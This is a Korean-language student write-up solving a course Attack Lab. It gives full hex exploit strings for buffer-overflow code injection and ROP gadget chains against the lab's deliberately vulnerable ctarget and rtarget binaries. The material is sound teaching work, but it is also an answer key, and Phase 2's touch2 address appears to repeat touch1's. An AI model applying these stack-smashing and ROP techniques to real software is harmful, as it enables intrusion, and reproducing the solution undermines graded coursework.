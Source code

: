 # Attack_Lab  / Solution by BaeJuneHyuck , PNU CSE


## <Phase_1>
Phase1,2,3은 ctarget의 getbuf 실행 후 리턴을 통해touch1,2,3을 실행해야 한다.
제공받은 ctarget을 objdump -d 를 사용하여 역어셈블한 뒤, getbuf를 확인하면 **sub $0x28, %rsp**를 통해 스택에 40바이트를 할당함을 확인할 수 있다. 
우리의 목적인 touch1에 접근하기 위해서는 할당 받은 40바이트를 넘어 touch1의 주소를 입력하여 return address를 수정하면 된다.
touch1의 주소는 0x401915이며 Byte ordering에 따라서 15 19 40 00 00 00 00 00 을 주소로 입력해주었다. 

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40바이트 채우기 */
15 19 40 00 00 00 00 00 /* touch1의 주소 */
```
위의 내용을 exploit.txt로 생성한 뒤, cat exploit1.txt | ./hex2raw | ./ctarget 을 실행하여
Phase1을 성공적으로 수행하였다.

## <Phase_2>
Phase2에서는 getbuf이후 touch2를 실행하되 인자로 자신의 cookie값을 전달해야 한다. 
따라서, touch2의 인자를 조작하기 위하여 **mov $0x232add1b, %rdi** 가 실행되고, 그 다음 **retq** 를 통해 touch2로 Instruction Pointer가 이동해야 한다. gets의 입력으로 이를 위한 바이트 코드를 입력하고 리턴 어드레스를 입력 버퍼의 주소로 설정하면, 해당 코드가 실행되도록 할 수 있다. 위의 어셈블리 코드를 phase2.s 로 생성하고, gcc -c phase2로 컴파일, objdump -d phase2.o 를 통하여 역어셈블 하면 바이트 코드 **48 c7 c7 1b dd 2a 23 / c3** 를 얻을 수 있다. 또한, gdb를 통해 retq 실행 직전의 rsp의 값을 x/s %rsp 명령어로 확인, 그 값에서 0x28을 뺀 값이 입력 버퍼의 주소(즉, 첫번째 명령 실행을 위한 주소)이므로 리턴 어드레스를 덮어씌우기 위한 값을 얻게 된다. 마지막으로 retq의 대상이 되는 touch2의 주소를 덧붙인다. 이들을 조합하여 작성하면 다음과 같다.

```
48 c7 c7 1b dd 2a 23 c3 /* mov $0x232add1b(쿠키값), %rdi // retq */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 나머지 40바이트 채우기 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
15 19 40 00 00 00 00 00 /* touch2의 주소, 리틀 엔디안 */
 ```
 
## <Phase_3>
 Phase2와 달리 쿠키를 정수 값이 아닌 문자열로 전달해 주어야한다. 
기본적인 방법은 위의 phase2와 비슷하다. 원래 함수의 리턴 주소를 입력 버퍼의 주소(rsp-0x28)로 바꿔서 첫번째 명령(movq)을 실행하도록 하였다. 이때 movq 명령에서 phase2와 달리 쿠키 string이 있는 위치, 즉 retq실행 시점의 rsp + 0x10을 rdi에 저장하고 있다. 이후 첫번째 라인의 리턴(c3)에 의해 touch3가 실행된다. 이를 나타내는 입력은 아래와 같다.

```
48 c7 c7 c0 f8 61 55 c3  /* movq 0x5561f8c0(cookie string의 주소), rdi */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 여기까지 40바이트 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
```

## <Phase_4>
 Phase4, 5는 새로운 실행파일인 rtarget을 실행시켜 ROP를 사용, phase2, 3을 반복한다.
주어진 pdf에서는 2개의 가젯을 이용하여 이를 수행할 수 있고 pop을 이용하여 스택에서 데이터와 가젯의 주소를 사용할 수 있다고 힌트를 주고 있다. 우리가 원하는 동작은 rdi에 쿠키값을 넣고 touch2를 실행하는 것이다. 직접 쿠키의 값을 레지스터에 입력해주는 가젯은 없으니 버퍼 입력을 통해 스택에 쿠키값을 삽입, 입력 되어있는 쿠키를 pop을 사용하여 rdi에 저장해주자. 사용중인 rtarget 파일에서는 popq %rdi의 가젯이 존재하지 않아서 **popq %rax**를 통해 임시로 rax에 저장 후 **movq %rax, %rdi**를 통해 rdi에 쿠키값을 입력하였다.
 이제 각각의 가젯을 찾아야 하는데 이들의 바이트 코드는 각각 **58 / 48 89 c7** 이다. rtarget 내부의 gadget_farm에서 ‘58’을 검색하면 아래와 같은 코드를 찾을 수 있다.

```
0000000000401aef <getval_379>:
  401aef:	b8 1e 58 90 90       	mov    $0x9090581e, %eax
  401af4:	c3                   	retq
```
58 90 90 c3에서 90은 nop로써 원하는 동작을 하는데 영향을 주지 않는다.
따라서 401aef + 3 (offset)으로 popq rax를 사용할 수 있다.  같은 방법으로 movq %rax %rdi의 가젯도 찾을 수 있으며. 이를 통해 작성된 입력은 아래와 같다.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
f1 1a 40 00 00 00 00 00 /* gadget 1	popq rax */
1b dd 2a 23 00 00 00 00 /* cookie */
f8 1a 40 00 00 00 00 00 /* gadget 2	movq rax rdi */
41 19 40 00 00 00 00 00	/* touch2 의 주소*/
```

## <Phase_5>	
 Phase3에서 사용한 입력들을 가젯을 사용하여 구현하여야 한다. 주어진 pdf는 공식적인 정답은 8개의 가젯을 사용한다고 말해주고 있는데 이를 통해phase_3에서 사용한 movq와 retq가 여러 가젯을 사용하여 구현될 것 임을 알 수 있다. 
먼저 rdi에 쿠키의 주소를 입력해 주어야 하는데, 역시나 이를 직접 수행할 수는 없으며, 직접 버퍼 입력으로 cookie의 string을 입력해주고 그 주소를 pop을 사용하여 레지스터에 전달해주어야 한다. rsp를 rdi에 저장한 뒤 rsp에서 cookie string까지의 거리 48을 rax에 넣으면 두 값을 더한 값이 바로 쿠키의 주소가 된다. 이를 위한 add_xy가 gadget_farm에 친절하게도 존재하는 것을 확인할 수 있고, 이후 gadget7으로 사용하였다.
 구현을 위하여 여러 가젯이 사용되였다. gadget7의 lea (rdi rsi 1), eax를 사용하기 위해서 **rsp의 값은 movq를 통해 rsp -> rax ->rdi 순으로 전달**되었으며 **쿠키 스트링까지의 거리 48은 popq를 사용하여 rax에 저장된 뒤, rax->edx->ecx->esi순으로 전달**되었다. 이 두 값을 lea를 통해 더한 뒤 eax에 저장해주었고 마지막으로 movq rax rdi를 실행하는 가젯을 통하여 쿠키의 주소를 인자(rdi)로 전달, touch3를 실행하였다. 
 특이한 점으로 5번째 가젯의 바이트코드에는 38 c0이 포함 되어있으나 해당 코드가 실행하는 명령인 cmpb는 레지스터에 영향을 주지 않으므로 원하는 기능을 수행하는데 아무 문제가 되지 않는다. 이를 모두 구현한 입력은 아래와 같다. 

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
3f 1b 40 00 00 00 00 00 /* gadget1, movq rsp rax */
f8 1a 40 00 00 00 00 00 /* gadget2, movq rax rdi */
f1 1a 40 00 00 00 00 00 /* gadget3, popq rax */
48 00 00 00 00 00 00 00 /* gap between gadget1 and cookie */
39 1b 40 00 00 00 00 00 /* gadget4, movl eax edx */
8b 1b 40 00 00 00 00 00 /* gadget5, movl edx ecx */ 
a2 1b 40 00 00 00 00 00 /* gadget6, movl ecx */
2a 1b 40 00 00 00 00 00 /* gadget7, lea (rdi rsi 1) eax */
f8 1a 40 00 00 00 00 00 /* gadget8, movq rax */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
00 00 00 00 00 00 00 00 /* string end */
```
